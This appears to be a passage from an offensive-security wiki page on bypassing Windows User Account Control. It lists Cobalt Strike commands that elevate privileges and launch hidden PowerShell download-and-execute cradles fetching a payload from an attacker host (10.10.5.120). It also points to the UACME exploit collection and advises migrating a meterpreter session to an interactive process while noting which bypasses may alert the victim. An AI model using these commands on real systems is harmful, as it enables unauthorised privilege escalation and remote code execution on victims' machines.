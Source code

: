 ### UAC bypass with cobalt strike

The Cobalt Strike techniques will only work if UAC is not set at it's max security level

```bash
# UAC bypass via token duplication
elevate uac-token-duplication [listener_name]
# UAC bypass via service
elevate svc-exe [listener_name]

# Bypass UAC with Token Duplication
runasadmin uac-token-duplication powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
# Bypass UAC with CMSTPLUA COM interface
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```

**Empire** and **Metasploit** also have several modules to **bypass** the **UAC**.

### UAC bypass exploits

[**UACME** ](https://github.com/hfiref0x/UACME)which is a **compilation** of several UAC bypass exploits. Note that you will need to **compile UACME using visual studio or msbuild**. The compilation will create several executables (like `Source\Akagi\outout\x64\Debug\Akagi.exe`) , you will need to know **which one you need.**\
You should **be careful** because some bypasses will **prompt some other programs** that will **alert** the **user** that something is happening.

UACME has the **build version from which each technique started working**. You can search for a technique affecting your versions:

```
PS C:\> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

Also, using [this](https://en.wikipedia.org/wiki/Windows\_10\_version\_history) page you get the Windows release `1607` from the build versions.

#### More UAC bypass

**All** the techniques used here to bypass AUC **require** a **full interactive shell** with the victim (a common nc.exe shell is not enough).

You can get using a **meterpreter** session. Migrate to a **process** that has the **Session** value equals to **1**:

![](<../../.gitbook/assets/image (96).png>)
